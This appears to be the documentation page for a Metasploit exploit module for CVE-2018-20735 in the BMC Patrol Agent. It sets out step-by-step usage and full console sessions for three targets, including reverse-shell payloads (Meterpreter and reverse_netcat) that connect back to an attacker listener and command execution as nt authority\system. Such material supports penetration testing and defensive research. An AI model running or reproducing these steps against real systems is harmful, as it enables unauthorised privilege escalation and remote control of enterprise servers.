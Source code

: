 ## Description
This module exploits the lack of proper authorization checks in the BMC Patrol Agent that allows arbitrary operating system commands to be executed at a higher privilege level than the user being authenticated. The module is simply a ruby implementation of the remote protocol provided by BMC Patrol Agent to execute system commands.

The vulnerability was identified by Ryan Wincey of [Securifera](https://www.securifera.com/) and was assigned [CVE-2018-20735](https://www.cvedetails.com/cve/CVE-2018-20735/) Further details can be found at the [Securifera website](https://www.securifera.com/blog/2018/12/17/bmc-patrol-agent-domain-user-to-domain-admin/).


## Vulnerable Application
The module affects the BMC Patrol Agent component of [BMC TrueSight Infrastructure Management](https://docs.bmc.com/docs/TSInfrastructure/113/home-774795879.html). The agent is installed on servers managed using BMC TrueSight Infrastructure Management and listens on TCP port 3181. The vulnerability affects versions up to 11.3.

## Verification Steps
To use this exploit you will need access to BMC Patrol Agent.

1. Install the BMC Patrol agent on a host.
2. Ensure that the PatrolAgent service is running and listening on TCP port 3181.
3. Launch `msfconsole`.
4. Load the module `use exploit/multi/misc/bmc_patrol_cmd_exec`.
5. Set the username to authenticate with `set USER patrol`.
6. Set the password for the user `set PASSWORD password`.
7. Set the command to execute `set CMD "whoami"`.
8. Run the exploit `exploit`.

The result should be that the string `nt authority\system` is returned and output.

## Scenarios
The exploit module contains several targets as detailed below.

### Target 0: Windows Powershell Injected Shellcode
This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Windows targets (for example, a Meterpreter shell). 

	msf5 > use exploit/multi/misc/bmc_patrol_cmd_exec 
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set RHOSTS 192.168.162.133
	RHOSTS => 192.168.162.133
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set LHOST 192.168.162.128
	LHOST => 192.168.162.128
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set payload windows/meterpreter/reverse_tcp
	payload => windows/meterpreter/reverse_tcp
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set USER user
	USER => user
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set PASSWORD password
	PASSWORD => password
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > exploit -j
	[*] Exploit running as background job 0.
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > 
	[*] Started reverse TCP handler on 192.168.162.128:4444 
	[*] 192.168.162.133:3181 - Connected to BMC Patrol Agent.
	[*] 192.168.162.133:3181 - Successfully authenticated user.
	[*] Sending stage (179779 bytes) to 192.168.162.133
	[*] Meterpreter session 1 opened (192.168.162.128:4444 -> 192.168.162.133:58461) at 2019-02-10 23:00:03 -0500


### Target 1: Generic Cmd
This target can be used with *cmd* payloads to execute operating system commands against the target host.

	msf5 > use exploit/multi/misc/bmc_patrol_cmd_exec 
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set RHOSTS 192.168.162.130
	RHOSTS => 192.168.162.130
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set LHOST 192.168.162.128
	LHOST => 192.168.162.128
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set USER patrol
	USER => patrol
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set PASSWORD password
	PASSWORD => password
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set TARGET 1
	TARGET => 1
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set PAYLOAD cmd/unix/reverse_netcat
	PAYLOAD => cmd/unix/reverse_netcat
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > exploit -j
	[*] Exploit running as background job 0.
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > 
	[*] Started reverse TCP handler on 192.168.162.128:4444 
	[*] 192.168.162.130:3181 - Connected to BMC Patrol Agent.
	[*] 192.168.162.130:3181 - Successfully authenticated user.
	[*] Command shell session 1 opened (192.168.162.128:4444 -> 192.168.162.130:57408) at 2019-02-10 23:05:12 -0500


### Target Cmd Execution: Windows/Unix/Linux
This target isn't a formal target. It was added to allow a user to execute commands entirely through the Patrol Agent remote administration feature and view the output. It would be the most quiet of the targets as it does not create any additional connections or use powershell by default like Target 0.
	
	msf5 > use exploit/multi/misc/bmc_patrol_cmd_exec
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set RHOSTS 192.168.162.133
	RHOSTS => 192.168.162.133
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set USER user
	USER => user
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set PASSWORD password
	PASSWORD => password
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > set CMD whoami
	msf5 exploit(multi/misc/bmc_patrol_cmd_exec) > exploit
	[*] 192.168.162.133:3181 - Connected to BMC Patrol Agent.
	[*] 192.168.162.133:3181 - Successfully authenticated user.
	[*] 192.168.162.133:3181 - Command to execute: whoami
	[*] 192.168.162.133:3181 - Output:
	nt authority\system



